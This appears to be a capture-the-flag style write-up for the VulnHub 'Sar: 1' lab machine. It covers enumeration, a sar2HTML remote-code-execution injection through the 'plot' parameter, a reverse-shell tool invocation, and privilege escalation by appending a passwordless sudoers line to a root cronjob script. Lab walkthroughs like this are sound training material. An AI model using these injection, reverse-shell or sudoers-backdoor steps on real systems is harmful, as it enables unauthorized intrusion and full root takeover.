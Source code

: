<p align="center"><img src="https://github.com/AkaSec-1337-CyberSecurity-Club/Introduction/raw/main/light-14.jpg" alt="AkaSec 1337 CyberSecurity Club Logo"/><br></p>

# Introduction

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

This box is on the <a href="https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0">NetSecFocus Admin list</a> of OSCP-like machines. It’s <a href="https://www.vulnhub.com/entry/sar-1,425/">SAR: 1</a> from vulnhub.

## Setup Machine

First of all, I setup <a href="https://www.vulnhub.com/entry/sar-1,425/">sar machine</a> locally in a virtualMachine with the name **sar** then started it.
After starting the machine, I got its IP address using **VBoxManage** command
```bash
$> VBoxManage guestproperty enumerate sar | grep IP
```
<p align="center"><img src="screenShots/GetMachineIP.png" alt="Machine IP"/></p><br>

## Enumeration

### Nmap

The first step to penatrate a machine is gather information about it. After getting its IP address we can scan its to get open ports and service using **nmap** command

```bash
$> nmap FLAGS IPADDRESS
-A flag for aggressive scanning
-sV flag detect running services and their version
```

<p align="center"><img src="screenShots/Nmap.png" alt="Scan IP address with nmap"/></p><br>

### Fuzzing

The output shows that we have port 80 open, so we can access the ip via browser, The default page shows apache info page.
The next step is searching for more directories and files, to do that we can use **dirb** tool

```bash
$> dirb http://IPADDRESS/ /path/to/wordlist
```

<p align="center"><img src="screenShots/Dirb.png" alt="Fuzzing for more paths"/></p><br>

The output of **dirb** tool shows 3 valid paths, `index.html` which is the default apache page, `phpinfo.php` shows php info, and finally `robots.txt` that has `sar2HTML` text.
I put that text as path in URL and I got the following page

<p align="center"><img src="screenShots/sar2HTML.png" alt="sar2HTML page"/></p>

### Exploiting

After reading the content I decided to look up sar2Html in google, and I found that it is a service that has a Remote Code Execution vulnerability, I exploited it as described in <a href="https://www.exploit-db.com/exploits/47204">exploit-db</a>, `IPADDRESS/sar2HTML/index.php?plot=;<command>` this will execute the command and show the output of it in select host droplist at the left of the page.

<p align="center"><img src="screenShots/RunTheExploit.png" alt="Exploited sar2HTML"/></p>

After executing the command I immediately thought of a reverse shell, I found this <a href="https://github.com/AssassinUKG/sar2HTML">Reverse Shell for sar2HTML</a> and executed it as follow

```bash
$> ./sar2HTML -ip MACHINEIPADDRESS -rip LISTENING_SERVER_FOR_REVERSE_SHELL -pe DIRECTORY
```
running `rs session` on the webShell will create a server (listening on `IP:PORT` provided in `-rip` flag) with a Reverse Shell.<br>
After getting the reverse shell I started checking the current directory, which is `/sar2HTML`, then back one step to parent directory which is `/var/www/html`.<br>
I found in this directory 2 suspicious files, `finally.sh` with root as owner and `write.sh` with current user as owner which is `www-data`.<br>
After printing their content I found that `finally.sh` execute `write.sh` file, where `write.sh` file create `/tmp/gateway` file using `touch` command.<br>
That is all I could get for now.
<p align="center"><img src="screenShots/ReverseShell.png" alt="Reverse Shell"/></p>

### LinPEAS

For more information about the system we can use LinPEAS tool, this tool can find possible CVEs and vulnerabilities that we can exploit.<br>
<p align="center"><img src="screenShots/LinPEAS.png" alt="LinPEAS"/></p>
<p align="center"><img src="screenShots/Information.png" alt="LinPEAS"/></p>

After scrolling more and reading through the output, I found that the system is vulnerable to `CVE-2021-4043` (I won't exploit it for now).<br>
Reading more I found a cronjob that runs every 5 minutes, the cronjob was highlighted by the `LinPEAS tool`.<br>
The cronjob runs the `finally.sh` script that we found in `/var/www/html` as root, so whatever is written in `write.sh` will be run as root every 5 min.<br>
<p align="center"><img src="screenShots/VulnerabilityFound.png" alt="LinPEAS"/></p>
The way to privilege escalating is to set the current user `www-data` in the sudoers list in `/etc/sudoers` which can be updated only by the root.<br>
I appended to `write.sh` script some commands to check sudoers file, then added `echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers` to `write.sh` script.<br>
This will add the current user `www-data` to sudoers so he can run any command without password, Thus after 5 min I ran `sudo bash` as a sudoer and got bash with root privileges. 
<p align="center"><img src="screenShots/PrivilegeEscalating.png" alt="LinPEAS"/></p>


